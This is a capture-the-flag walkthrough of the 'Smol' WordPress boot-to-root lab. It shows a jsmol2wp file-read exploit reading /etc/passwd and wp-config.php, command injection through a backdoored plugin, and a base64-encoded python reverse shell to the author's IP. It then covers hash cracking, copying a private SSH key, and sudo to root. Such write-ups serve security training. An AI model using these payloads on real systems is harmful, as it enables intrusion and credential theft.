# Smol
Description: Test your enumeration skills on this boot-to-root machine.
Difficulty: Medium

# nmap

After starting the machine and letting it boot up for a few minuntes. We start an nmap scan of the target IP. To find out what we're dealing with. The room talks about a Wordpress website so we know that there should at least be a port for HTTP open.



We see that we have both an SSH and an HTTP-server running on standard ports. Let's start by checking out the HTTP-server.

# web

We get an error message about it not being able to connect to www.smol.thm. This means that it tries to redirect us, to a host that doesn't exist. Pretty standard in these kinds of rooms. And we can actually see that it tries to do that in the nmap scan as well.

```
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://www.smol.thm
```

To resolve this, let's add it to our hosts file.

```
echo "10.10.226.64 www.smol.thm" | sudo tee -a /etc/hosts
```

Now if we try again we'll be able to get the page to load. But remember that you have to supply the IP address for your machine, as it's more likely than not that it will differ.



Looking through the site we don't really find that much of value, except an email-address and one article that seems to be written by someone else. We already knew that it was built with WordPress, so that isn't really any news. But since it is, let's fire up wpscan to try to enumerate it further.

# wpscan

```
wpscan --url http://www.smol.thm -e
```

We use -e ap,u to tell wpscan to enumerate all plugins and users. So now we know that the plugin jsmol2wp is running, and we have a list of usernames. Let's see if there is any vulnerabilities for jsmol2wp.

We find this site about there being an SSRF vulnerability in the plugin in versions up to and including 1.07. The version on our target is 1.07. So we seem to be onto something.
https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/

Let's try it out!

# jsmol2wp ssrf

We'll go to the php-file that we're going to exploit.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php
```
Firstly let's try it out on a file we know exists, namely passwd.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=/etc/passwd
```



Success! We have confirmed the exploit and we're able to read files on the server. If you look in this file, we see that there are three users on the server that is also registered in Wordpress.

So how can we leverage this exploit in our favor? We know that it uses Wordpress, and Wordpress needs a SQL database. This requires credentials for it to access said database. Where can we find them? In wp-config.php. So what if we try to read that file?

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=../../../../wp-config.php
```

Nice! A clear-text password and a username. This should come in handy. But where do we use them? There wasn't a port open for the SQL-server when we did our portscan. So we can't seem to connect to it remotely. But there is somewhere we can log in. The Wordpress login.

```
http://www.smol.thm/wp-login.php
```



# getting deeper access

So we've been able to get past our first hurdle. We've managed to snag credentials for one login. Now we'll need to try to get deeper access to the system.

Looking through this portal we find a page that has been set as private. Interesting!



The first row seems really interesting. Backdoor, plugin named "Hello Dolly". Let's try to find out more about this plugin.

Reading up on it a bit, we find that the actual php-file seem to be named hello.php. And it seems to be placed either directly in the plugins directory or it's own directory called hello-dolly.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=../../hello.php
```

There it is! Now what can we learn about this? There was talk about a backdoor. Do we find anything of interest in the code? We actually do. Especially if we compare this file to an original from github. The line with the eval and a base64 encoded string.

Decoding it in our terminal gives us this result.



Looks like there is some more encoding going on. After looking around for a while I found out that "\143\155\x64" decodes into cmd. So let's try and see if we can have any command injeciton.

```
http://www.smol.thm/wp-admin/index.php?cmd=id
```



Awesome! Now let's try to leverage this to get a reverse shell going. After experimenting for a bit, I found a way to get it to work. By using a python3 reverse shell and encoding it as base64, that then is decoded and piped to bash.

```
http://www.smol.thm/wp-admin/index.php?cmd=echo+ZXhwb3J0IFJIT1NUPSIxMC45LjI0NS4xMDUiO2V4cG9ydCBSUE9SVD0xMzM3O3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJw==+|+base64+-d+|+bash
```

Keep in mind that you'll have to make your own base64 encoded string. Since this one is pointing to my IP and the port that I chose. You can use this site to make your own.

```
https://www.revshells.com/
```

Now we've got a foothold inside the server. Time to try do some privilege escalation.

# escalating on the server

So now what can we do? Remeber how we got these credentials? That's right. It was for Wordpress to be able to access the SQL database. And there were other users registered there as well. With the same usernames as on the server. So chances are that their reusing the password. Let's find out, by logging in to the database and extracting the credentials.

```
mysql -u wpuser -p
```



There it is. the wordpress database.

```
use wordpress; select * from wp_users;
```

And we get the usernames and password-hashes for everyone. The interesting ones seem to be the last four. Since they are the ones that share username with the server.

I actually checked the table user in the mysql database as well. To see if there were any other hashes to be found there. But those didn't really seem interesting.

So now what do we do? We have 4 users and 4 hashes. We try to crack them of course. I used hashcat for this. Took it sweet time, but I got something out of it in the end.

Let's try it. We'll save the hashes in a text file. Then try to crack it with rockyou.txt

```
hashcat -m 400 hashes.txt /usr/share/wordlists/rockyou.txt
```

We get a hit on one of them. So now we have a matching pair of username and password to log in as.

```
su <user>
```

Now if we go check the users home directory we find our user.txt.

```
cd
cat user.txt
```

# further lateral movement

Hmm.. This user doesn't really seem to have much privileges on the server. So we'll need to try to get ourselves more. If we check the groups we see that two of the users seem to be a part of the "dev" group. Sounds a little fancier, so maybe that'll give us something more.

```
cat /etc/group
```

They're all members of the group internal. Might be something of worth. Let's see what files we can find.

```
ls -la /home
```

Hmmm.. All of the directories belong to the group internal. So we have access to them all. Let's see if we find something interesting.

In one of them we find that there is a .ssh directory which is open to all. And within it an id_rsa. This almost seems too good.



I'll copy it over to my local machine. I'll just put up a temporary http-server in the .ssh directory.

```
remote:
python3 -m http.server 12345
local:
wget http://10.10.122.62:12345/id_rsa
```



So now we have the users private key. So we should be able to log in to the ssh service now. Just remember to make sure the key has the right permissions.

```
chmod 600 id_rsa
ssh <user>@10.10.122.62 -i id_rsa
```

And we're in.

# getting root

So now we're almost there. This is where I accidentally found out that I was able to su into another user without password. And here we found an old wordpress archive in their home directory. Might be worth checking out if we find anything interesting there. I'll download it locally by making another server with python3.

```
remote:
python3 -m http.server 1234
local:
wget http://10.10.122.62:1234/wordpress.old.zip
```

So now that we have it stored locally, let's unzip it and view it's contents.

```
unzip wordpress.old.zip
```

Where in the installation that was live did we find the credentials? In the wp-config.php. So why not check it out in this old installation?

```
cat wordpress.old/wp-config.php
```

Tada! Here we get the credentials for the last user. So let's switch to this one and see what we can do. Even though I haven't mentioned it. One of the first things I always do when getting access to a new user is to check if they're able to run anything with sudo.

```
sudo -l
```

And there we have it. With the password, we have the ability to run anything with sudo. So let's just log in as root then.

```
sudo su
```



Nice! Now we can just read the /root/root.txt and we've finished the room.

```
cat /root/root.txt
```
